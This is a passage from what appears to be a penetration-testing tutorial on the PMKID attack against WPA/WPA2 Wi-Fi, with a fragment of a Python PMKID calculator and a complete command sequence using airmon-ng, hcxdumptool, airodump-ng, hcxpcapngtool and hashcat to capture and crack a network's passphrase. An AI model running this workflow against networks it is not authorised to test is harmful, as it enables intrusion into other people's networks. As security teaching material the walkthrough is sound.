pmkid = hmac.new(pmk, message.encode('utf-8'), hashlib.sha1).hexdigest()

#This portion simply prints everything.
print("Basic PMKID Calculator")
print('Access Point Mac | ' + APMac + ' | ' + str(APMachex))
print('Station MAC | ' + StMac + ' | ' + str(StMachex))
print('Message: ' + str(message))
print('PMK: ' + str(pmk))
print('PMKID: ' + str(pmkid))
```

Unlike cracking a four-way handshake, generating the PMKID is less complex. As attackers, we can intercept the Access Point and Station MAC addresses, along with the ESSID, giving us three of the four primary inputs required to generate the PMKID. As a result, it requires less computational power to generate the PMKID versus cracking a traditional handshake. However, this may vary on a case-by-case basis.

`Retrieve PMKID` -> `Guess Wi-Fi passphrase using dictionary` -> `create PMK hash` -> `create PMKID hash and compare with retrieved PMKID hash.`

The main advantage for this attack is that no regular users (clients) are required – because the attacker directly communicates with the AP (aka “client-less” attack)

### Running the Attack

Start monitor mode

```bash
sudo airmon-ng start wlan0
```

Scan for the target network and determine if it is vulnerable to the PMKID attack. This can be done using [hcxdumptool](https://github.com/ZerBea/hcxdumptool), specifying the interface with the `-i` flag. To include relevant statuses in the command output, the `--enable_status` option is used, with three statuses being sufficient for most cases. Additionally, the `-o` flag allows saving the scan results to a .pcap file for further analysis.

**Status Codes**:
1. `EAPOL`
2. `ASSOCIATION and REASSOCIATION`
3. `EAPOL and ASSOCIATION and REASSOCIATION`

```bash
sudo hcxdumptool -i wlan0mon --enable_status=3
```

Once we get a result ESSID from the scan above we can use airodump-ng with `--essid` to find out the BSSID of our target.

```bash
sudo airodump-ng wlan0mon --essid WirelessNetwork
```

To ensure we only target our intended network (and avoid inadvertently attacking neighboring access points), we can refine our capture file. Start by using the `--enable_status` flag as before, then specify the target network's MAC address with the `--filterlist_ap` option. Additionally, set the appropriate filter mode and use the `-o` option to define where the captured PMKID should be saved.

```bash
sudo hcxdumptool -i wlan0mon --enable_status=3 --filterlist_ap=XX:XX:XX:XX:XX:XX --filtermode=2 -o PMKID.pcap
```

If we absolutely want to ensure that we have successfully captured the PMKID, we can open our outputted capture file in Wireshark, add the `eapol` filter, and look under `message 1`. In here under `802.1X Authentication` -> `WPA Key Data` -> `Tag:`, we can see the RSN data for the PMKID. This should be the same as what was outputted in the terminal session from hcxdumptool.

Now that we have the PMKID captured into a pcap file, we need to convert it to a usable hash format for hashcat's `22000` option. We do so by using the `hcxpcapngtool` tool, which is part of [hcxtools](https://github.com/ZerBea/hcxtools)

```bash
hcxpcapngtool -o hash.hc22000 PMKID.pcap
```

We can inspect the hash to verify that it's the format we expect. It should match the following format:

```
WPA*01*cf7b81c9764f573c0fe30d21b40540d1*d8a63deb29d5*a234e93dcc12*485442***
WPA*02*8d2a1324dffc596883d96a1296fcb0d1*d8d33deb29d5*a234e93dcc12*485442*c1ba769069dbf4e21b72b20e706840d39e66905f8678d1736c6039381f048ff2*0103007502010a00000000000000000001c69f4dbef776505c95506cc6367c312647490089daeb4106b213dc02ae29441c000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001630140100000fac040100000fac040100000fac028000*02
```

We can now crack the hash with hashcat using -m 22000 

```bash
hashcat -a 0 -m 22000 hash.hc22000 /opt/wordlist.txt
```